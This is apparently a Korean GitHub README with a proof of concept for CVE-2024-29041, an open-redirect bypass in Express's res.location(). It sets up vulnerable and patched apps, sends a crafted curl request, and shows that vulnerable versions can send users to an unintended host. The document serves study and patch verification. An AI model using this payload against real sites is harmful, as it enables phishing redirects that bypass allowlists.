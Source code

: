 # CVE-2024-29041

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

## 요약

아래 Express 버전에서 `req.location()` 혹은 내부적으로 `req.location()`을 이용하는 `req.redirect()`에서는 헤더의 `Location`에 값을 넣기 전, encodeurl()이라는 함수를 이용하여 인코딩합니다. 이러한 과정에서 리디렉션 화이트리스트를 우회할 수 있는 가능성이 발생합니다.

- \< 4.19.2
- \>= 5.0.0-alpha.1, \< 5.0.0-beta.3

<br/>

## PoC 구성

먼저 normal-app, vuln-app 2개의 express 서비스를 제작하였습니다. 두 서비스는 모두 query의 q에 있는 url을 파싱한 후, `Location` 헤더에 넣어 응답을 반환합니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

각 app의 package.json에 express 버전을 명시하였습니다. vuln-app은 4.19.0, normal-app은 패치가 완료된 4.19.2로 구동됩니다.

## 환경 구성 및 실행

8002에는 취약한 버전의 Express가, 8003 포트에는 안전한 버전의 Express가 구동됩니다.

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

## 결과

### 요청

[패치 내역1](https://github.com/expressjs/express/commit/0b746953c4bd8e377123527db11f9cd866e39f94)과 [패치 내역2](https://github.com/expressjs/express/commit/0867302ddbde0e9463d0564fea5861feb708c2dd)의 테스트 코드를 참고하여 요청 URL을 선정하였습니다.

```sh
curl -i -X GET "http://localhost:8003?q=http://google.com%5C%5C@apple.com"
```

### 안전한 Express 서버(8003 포트)

![normal](./assets/normal.png)

### 취약한 Express 서버(8002 포트)

![normal](./assets/vuln.png)

<br/>

## 정리

`http://localhost:8003?q=http://google.com%5C%5C@apple.com` 요청 시 `Location` 헤더에, 취약한 Express 버전에서는 `http://google.com\\@apple.com`가 추가되지만, 안전한 Express 버전에서는 `http://google.com\%5C@apple.com`이 추가됩니다. 이처럼 버전에 따라 인코딩된 문자열을 처리하는 방식이 상이함을 알 수 있습니다. 이를통해 취약한 Express 버전에서는 google.com이 아닌 apple.com으로 이동할 수 있는 가능성이 있습니다. 따라서 최신버전의 Express로 업데이트하는 것이 필요합니다.
